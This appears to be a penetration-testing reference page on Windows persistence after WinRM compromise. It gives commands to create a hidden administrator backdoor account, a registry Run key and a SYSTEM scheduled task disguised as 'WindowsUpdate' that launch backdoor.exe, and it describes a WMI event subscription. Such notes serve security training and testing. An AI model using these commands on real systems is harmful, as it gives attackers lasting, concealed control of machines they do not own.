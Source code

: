 ___




## Persistence

Create persistent backdoor access to compromised WinRM systems

Create backdoor user

> [!example]-
>
> 1. Create new user
>
> ```sh
> net user <user> <password> /add
> ```
>
> 2. Add user to `administrators` group
>
> ```sh
> net localgroup administrators <user> /add
> ```
>
> 3. Add user to `Remote Desktop Users` group
>
> ```sh
> net localgroup "Remote Desktop Users" <user> /add
> ```

Registry Run key

> [!example]-
>
> Automatically launch `backdoor.exe` when that user logs in
>
> ```sh
> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\Temp\backdoor.exe"
> ```

Scheduled task

> [!example]-
>
> Run `backdoor.exe` at logon with `SYSTEM` privileges
>
> ```sh
> schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\backdoor.exe" /sc onlogon /ru SYSTEM
> ```

WMI event subscription

> [!info]-
>
> Create a WMI `__EventFilter` named `Backdoor` in `root\subscription`
> that fires every 60 seconds on changes to
> `Win32_PerfFormattedData_PerfOS_System`
